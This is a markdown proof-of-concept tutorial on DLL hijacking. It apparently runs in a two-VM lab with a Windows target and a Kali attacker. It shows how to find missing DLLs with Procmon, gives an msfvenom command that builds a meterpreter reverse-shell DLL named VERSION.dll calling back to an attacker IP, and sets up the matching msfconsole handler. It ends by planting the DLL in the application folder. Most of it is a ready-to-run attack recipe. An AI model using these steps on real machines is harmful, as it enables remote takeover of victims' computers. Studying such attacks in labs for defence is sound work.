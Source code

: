 # DLL Hijacking

DLL files contains executable code that can be used by other applications. When an application needs to use this DLL file, it has to search for it if the absolute path is not provided. If an attacker replaces his own DLL file with the name that the application is searching for, then the application loads the attacker’s DLL and executes the malicious code. This is known as DLL Hijacking Attack.

## Tools Required:
- VMWare, Procmon (Process Monitor), MsfVenom
- Create two Virtual Machine:
  - Windows OS (Exe Application Executing)
  - Kali Linux (Attacker Machine)

## POC

> **Step-1: Identifying Vulnerable DLLs that we can Hijack.**
 - Start Application
 - Open Procmon tool 
 - Apply three filters in Procmon (Menu Filter -> Filter)
     1. Process Name = contains = "Select Your Application Name" -> Add
     2. Path         = contains = ".dll"                         -> Add 
     3. Result       = contains = "NAME NOT FOUND"               -> Add
   
 - Click OK for apply filters.
> **Step-2: Closed the application and Re-open that application so all the process according to filter will show in** ***Procmon***  

> **Step-3: Now find the Dlls which are trying to load from current working application and is not available** ***(e.g: VERSION.DLL)*** 
            Application is trying to load this DLL but not able to find in to the application directory.
            
> **Step-4: Next step is create malicious DLL named VERSION.DLL using** ***MsfVenom (Kali Linux)***

    ``$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.252.130 LPORT=8888 -f dll > VERSION.dll``

> **Step-5: Now create reverse shell handler with msfconsole**

    ``$ sudo msfconsole
      
      msf > use exploit/multi/handler

      msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
      payload => windows/meterpreter/reverse_tcp

      msf exploit(multi/handler) > set LHOST 192.168.252.130  (Replace your attacker machine IP i.e Kali Linux IP)
      LHOST => 192.168.252.130

      msf exploit(multi/handler) > set LPORT 8888
      LPORT => 8888

      msf exploit(multi/handler) > exploit  
    ``
   Done..! 

> **Step-6: Reverse shell handler created, now paste malicious DLL(created through Step-4) in to the application directory and launch application **


